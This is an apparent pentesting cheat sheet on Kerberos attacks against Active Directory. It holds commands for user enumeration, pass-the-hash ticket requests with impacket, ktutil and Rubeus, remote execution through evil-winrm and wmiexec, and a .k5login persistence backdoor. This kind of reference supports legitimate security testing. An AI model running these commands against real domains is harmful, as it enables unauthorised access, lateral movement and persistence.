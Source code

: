 ```yaml
---
title: "Kerberos"
date: 2024-7-2
tags: ["kerberos", "kerbrute", "rubeus", "active directory", "ad", "domain controller", "Windows", "smb"]
---
```


### Users enum

{{< tab set1 tab1 active >}}kerbrute{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```console
kerbrute userenum --domain <DOMAIN> --dc <DC> <USERNAMES_FILE>
```

</div>

<small>*Ref: [kerbrute](https://github.com/ropnop/kerbrute)*</small>

{{< /tabcontent >}}

### Usernames generator

{{< tab set2 tab1 active >}}username-anarchy{{< /tab >}}
{{< tabcontent set2 tab1 >}}

<div>

```console
./username-anarchy -i <USERS_FILE> | tee <USERNAMES_FILE>
```

</div>

<small>*Ref: [username-anarchy](https://github.com/urbanadventurer/username-anarchy)*</small>

{{< /tabcontent >}}

<br>

---

### Generate Kerberos ticket (From Linux)

{{< tab set3 tab1 active >}}Impacket{{< /tab >}}
{{< tab set3 tab2 >}}Kinit{{< /tab >}}
{{< tabcontent set3 tab1 >}}

<div>

```console
# Auth with password
sudo ntpdate -s <DC> && impacket-getTGT '<DOMAIN>/<USER>'
```

```console
# Auth with hash
sudo ntpdate -s <DC> && impacket-getTGT -hashes :<HASH> '<DOMAIN>/<USER>'
```

```console
export KRB5CCNAME=<USER>.ccache
```

```console
# Check ticket
klist
```

</div>

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

<div>

```console
# Step 0: Installation
sudo apt install krb5-user cifs-utils
```

```console
# Step 1: Add domain controller to '/etc/hosts' (Try different order if not work)
<TARGET> <DC> <DOMAIN>
```

```console
# Step 2: Add domain controller as a DNS server to '/etc/resolv.conf' [optional]
nameserver <TARGET>
```

```console
# Step 3: Edit '/etc/krb5.conf'

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```

```console
# Step 4: Sync time to domain controller
sudo ntpdate -s <DC>
```

</div>

#### 2a. Without creds

<div>

```console
# Generate kerberos ticket for user
kinit <USER>
```

</div>

#### 2b. With NTLM hash

<div>

```console
ktutil
```

```console
add_entry -p administrator@<DOMAIN> -k 1 -key -e rc4-hmac
```

```console
<HASH>
```

```console
write_kt administrator.keytab
```

```console
exit
```

```console
kinit -V -k -t administrator.keytab -f administrator@<DOMAIN>
```

</div>

#### 3. Check ticket

<div>

```console
klist
```

</div>

{{< /tabcontent >}}

### Generate Kerberos ticket (From Windows)

{{< tab set4 tab1 active >}}rubeus{{< /tab >}}
{{< tabcontent set4 tab1 >}}

<div>

```console
.\Rubeus.exe asktgt /user:<USER> /password:'<PASSWORD>' /enctype:AES256 /domain:<DOMAIN> /dc:<DC> /ptt /nowrap
```

</div>

{{< /tabcontent >}}

<br>

---


### Winrm with Kerberos

{{< tab set5 tab1 active >}}evil-winrm{{< /tab >}}
{{< tab set5 tab2 >}}wmiexec{{< /tab >}}
{{< tabcontent set5 tab1 >}}

<div>

```console
# Step 1: Edit '/etc/krb5.conf'

[libdefaults]
    default_realm = <DOMAIN>

[realms]
    <DOMAIN> = {
        kdc = <DC>:88
        admin_server = <DC>
        default_domain = <DOMAIN>
    }
    
[domain_realm]
    .domain.internal = <DOMAIN>
    domain.internal = <DOMAIN>
```


```console
# Step 2: Connect
sudo ntpdate -s <DC> && evil-winrm -i <TARGET_DOMAIN> -r <DOMAIN>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set5 tab2 >}}

<div>

```console
sudo ntpdate -s <DC> && impacket-wmiexec '<DOMAIN>/administrator@<TARGET_DOMAIN>' -k -no-pass
```

</div>

{{< /tabcontent >}}

<br>

---

### Connect to SMB with Kerberos

<div>

```console
sudo ntpdate -s <DC> && impacket-smbclient '<DOMAIN>/<USER>@<TARGET_DOMAIN>' -k -no-pass
```

</div>

<br>

---

### Add Kerberos Access in Linux

<div>

```console
echo "<USER>@<DOMAIN>" > /home/<TARGET_USER>/.k5login
```

</div>

<br>